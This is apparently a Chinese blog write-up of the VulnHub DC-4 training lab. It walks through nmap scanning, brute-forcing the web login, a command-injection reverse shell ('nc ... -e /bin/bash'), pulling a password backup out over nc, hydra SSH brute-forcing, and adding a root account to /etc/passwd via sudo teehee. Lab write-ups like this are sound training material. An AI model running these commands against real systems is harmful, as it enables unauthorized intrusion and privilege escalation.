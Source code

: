 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 DC4-writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-09-26
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false
typora-root-url: ..\..\..\.vuepress\public


---
```


## 0x01 部署

靶机地址：

><https://www.vulnhub.com/entry/dc-4,313/>

**DESCRIPTION**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

只有一个flag

## 0x02 信息收集

靶机使用vmware部署，NAT模式

nmap扫描网段

```
nmap -sP 192.168.190.0/24
```

![image-20210926153642099](/assets/img/image-20210926153642099.png)

发现靶机IP：192.168.190.139，继续扫描

```
nmap -T5 -A -v -p- 192.168.190.139
```

结果：

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-26 14:27 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating ARP Ping Scan at 14:27
Scanning 192.168.190.139 [1 port]
Completed ARP Ping Scan at 14:27, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:27
Completed Parallel DNS resolution of 1 host. at 14:27, 0.00s elapsed
Initiating SYN Stealth Scan at 14:27
Scanning 192.168.190.139 [65535 ports]
Discovered open port 80/tcp on 192.168.190.139
Discovered open port 22/tcp on 192.168.190.139
Completed SYN Stealth Scan at 14:27, 1.00s elapsed (65535 total ports)
Initiating Service scan at 14:27
Scanning 2 services on 192.168.190.139
Completed Service scan at 14:27, 6.02s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 192.168.190.139
NSE: Script scanning 192.168.190.139.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.11s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Nmap scan report for 192.168.190.139
Host is up (0.00045s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 00:0C:29:B3:F5:3B (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.838 days (since Thu Mar 11 18:21:01 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.45 ms 192.168.190.139

NSE: Script Post-scanning.
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Initiating NSE at 14:27
Completed NSE at 14:27, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.81 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现80端口，登陆后只有一个登录界面，未发现其他公开的CMS或组件

![image-20210926153952656](/assets/img/image-20210926153952656.png)

## 0x03 渗透

尝试使用burpsuite进行web爆破，根据系统名包含admin，指定用户名admin，先爆破密码

![image-20210926154453036](/assets/img/image-20210926154453036.png)

爆破发现admin密码happy

使用admin登录后，发现web提供了执行命令的功能，需要执行的命令通过post参数传递

![image-20210926154602455](/assets/img/image-20210926154602455.png)

使用nc回弹shell，kali执行

```
nc -lvp 4444 
```

使用hackbar发送post参数`radio=nc 192.168.190.129 4444 -e /bin/bash&submit=Run`，获得反弹shell

![image-20210926154739554](/assets/img/image-20210926154739554.png)

执行命令获取方便观察的shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## 0x04 提权

查看/etc/passwd，发现几个用户，去home下查看，只有jim下存在文件，backups下有一个old-passwds.bak文件，mbox文件无权限，test.sh没什么用处

使用nc获取old-passwds.bak文件

```
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

然后使用old-passwords.bak文件对jim进行爆破

```
hydra -l jim -P old-passwords.bak -vV 192.168.190.139 ssh
```

爆破成功得到密码：

![image-20210926160224587](/assets/img/image-20210926160224587.png)

登录jim后发现mbox下内容：

![image-20210926160501768](/assets/img/image-20210926160501768.png)

似乎是一个邮件，在/var/mail/jim中发现邮件内容：

![image-20210926160535935](/assets/img/image-20210926160535935.png)

得到charles密码

登录charles，执行`sudo -l`发现charly可以执行teehee，可以将标准输入复制到我们选择的文件中

创建一个拥有root权限的账号

```bash
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
su test
whoami
```

在/root/下找到flag

![image-20210926160832848](/assets/img/image-20210926160832848.png)



